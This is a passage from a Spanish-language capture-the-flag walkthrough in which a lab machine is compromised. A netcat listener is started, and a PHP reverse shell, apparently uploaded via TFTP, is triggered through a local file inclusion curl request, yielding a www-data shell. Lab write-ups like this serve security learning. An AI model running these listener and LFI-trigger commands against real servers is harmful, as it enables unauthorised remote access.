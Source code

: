 ![](../img/f84a9447fdd68ce9be01e5e5fa53faae.png)

🟢 Esto funciona porque TFTP no requiere credenciales y el directorio por defecto en muchos sistemas es `/var/lib/tftpboot`.

### 3. 🖥️ Escuchar con netcat en tu máquina

```bash
nc -lvnp 1337
```

### 4. 📡 Activar el payload vía LFI

```bash
curl 'http://10.129.9.86/?file=/var/lib/tftpboot/shell2.php'
```

![](../img/07827e76976612eacdac3864e7097049.png)

Esto **incluye** el archivo PHP remoto y ejecuta el código del reverse shell.


### ✅ Resultado

Conexión entrante recibida:

```bash
Connection received on 10.129.9.86
uid=33(www-data) gid=33(www-data)...
```

![](../img/0e8513a0366af7f6591628e491320175.png)

